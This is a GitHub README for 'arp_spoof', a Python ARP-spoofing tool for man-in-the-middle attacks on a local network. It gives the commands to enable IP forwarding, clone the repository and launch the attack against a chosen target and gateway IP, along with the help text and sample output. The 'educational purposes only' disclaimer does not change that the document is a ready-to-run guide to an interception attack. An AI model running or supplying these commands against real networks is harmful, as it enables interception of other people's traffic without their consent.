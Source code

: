 # Arp_spoof
arp_spoof - ARP spoofing attack against someone else on your local unencrypted network.

## Desclaimer
arp_spoof is intented ONLY for EDUCATIONAL PURPOSES.

## Requirements
Python

Enable *ip_foreward*
```bash
sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
```

## Installation
Instructions on how to install *arp_spoof*
```bash
sudo git clone https://github.com/LeuvaApurv/arp_spoof.git
cd arp_spoof
sudo python arp_spoof.py -t [Target_IP] -g [Gateway_IP]

```

## Help
```bash
sudo python arp_spoof.py -h

Usage: arp_spoof.py [options]

Options:
  -h, --help            show this help message and exit
  -t TARGET_IP, --target-ip=TARGET_IP
                        Target IP for spoofing gateway.
  -g GATEWAY_IP, --gateway-ip=GATEWAY_IP
                        Gateway IP for spoofing Target.
                        
```

## Sample output:
```bash
sudo python arp_spoof.py -t 10.*.*.10 -g 10.*.*.1

[+] Packets sent: 6^C 
[+] Detected CTRL + C ....... Resetting ARP tables...... Please wait.

```
